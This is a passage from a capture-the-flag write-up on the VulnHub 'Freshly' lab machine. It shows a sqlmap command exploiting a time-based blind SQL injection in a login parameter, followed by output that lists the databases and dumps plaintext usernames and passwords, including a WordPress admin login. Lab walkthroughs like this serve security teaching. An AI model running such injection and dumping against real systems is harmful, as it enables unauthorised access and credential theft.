 Okay the `user` parameter is vulnerable to a time-based blind injection. Let's
see what are the databases:

    :::text
    [maggick@rootine sqlmap]$ python2 sqlmap.py -r ~/work/chall/vulnhub/Freshly/longin_req -p user --dbs
    back-end DBMS: MySQL 5.0.12
    [...]
    available databases [7]:
    [*] information_schema
    [*] login
    [*] mysql
    [*] performance_schema
    [*] phpmyadmin
    [*] users
    [*] wordpress8080

Let's dump the interesting databases, `users` and `login`:

users:

    :::text
    Database: login
    Table: users
    [2 entries]
    +----------+-----------+
    | password | user_name |
    +----------+-----------+
    | password | candyshop |
    | PopRocks | Sir       |
    +----------+-----------+

login:

    :::text
    Database: wordpress8080
    Table: users
    [1 entry]
    +----------+---------------------+
    | username | password            |
    +----------+---------------------+
    | admin    | SuperSecretPassword |
    +----------+---------------------+

So we got some passwords. Then let's use the wordpress password.

## Admin, PHP and Flag

We got the admin password for `http://10.0.2.5:8080/wordpress/wp-login`.
